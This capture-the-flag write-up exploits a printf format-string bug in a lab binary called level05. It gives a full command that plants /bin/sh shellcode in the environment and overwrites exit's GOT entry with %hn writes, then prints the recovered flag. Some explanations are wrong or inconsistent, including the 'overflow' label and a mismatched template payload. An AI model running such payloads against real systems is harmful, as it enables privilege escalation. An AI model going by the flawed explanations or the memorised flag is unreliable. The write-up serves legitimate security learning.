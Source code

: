 ### step 1 : decompile binary with ghidra

### step 2 : Check all the functions availaible :
- We find in the n function an overflow-vulnerable functions : printf(). It is vulnerable because there is no casting, printf takes a buffer. We can take advantage of that call to trick printf to read/write memory with flags in our buffer.

- An `exit(1)` call is made just after the `printf` call

This function launches a shell, therefore is our key to gain access the flag 

#### strategy 

Our strategy : overwrite the call of the `exit` function by the call of a shellcode defined in env to get access to a shell with privileges to read `/home/user/level6/.pass`  


### step3 : find exit addresses

- Address of `exit` in the Global Table Offset (GOT) : 
```
level05@OverRide:~$ objdump -R level05 

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main

```
exit : 080497e0

The `exit` address is 080497e0 => \xe0\x97\x04\x08
 : We will overwrite this address with the address of the shellcode


### step4 : setup shellcode in env

env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')

### step5: exploit printf overflow vulnerability


- we want to now at which position the printf starts to write the string given. For this with use this string as input : <n * char><n * %08x>
%08x will display the content of the stack chunks wrote next to the printf call

8 says that you want to show 8 digits
0 that you want to prefix with 0's instead of just blank spaces
x that you want to print in lower-case hexadecimal

```bash
./level5
aaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
=> aaaa00000064.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.00000000.ffffffff.ffffd764.f7fdb000.61616161.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838
```                              

- a value is 61
- We then find that printf argument position is at 10th position

shellcode address little endian : \xae\xde\xff\xff
shellcode address : 0xffffdeae

- The function shellcode address in decimal is 4294958766 
- We have to substract the 4 bytes of the destination address written at the start of the string : 4294958766 - 4 = 4294958762
- Our number of bytes is too big to be printed in a single destintation => we need to split the bytes in two addresses :

\xe0\x97\x04\x08
\xe0\x97\x04\x08 + 2 = 0x080497e0 + 2 = \xe2\x97\x04\x08

we split our address in the two adresses :
0xffffdeae => 0xffff + 0xdeae

0xffff => 65535
0xdeae => 57006 
57006 - 8 = 56998

- TODO explain

65535 - 56998 = 8537 - 8 = 8529

- The exploit string will be formatted like that : 
`<destination addr> + <destination addr + 2> + %<value in decimal2 - 2 two addresses length (8) >d + %10$n + %<value in decimal1 - value in decimal2>d + %11$n` :
`"\xe2\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn"`
- To get the exploit working we have to keep stdin open with the `cat` trick like previous exercices :

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn")' ; cat) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```
And we get the flag
=>h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
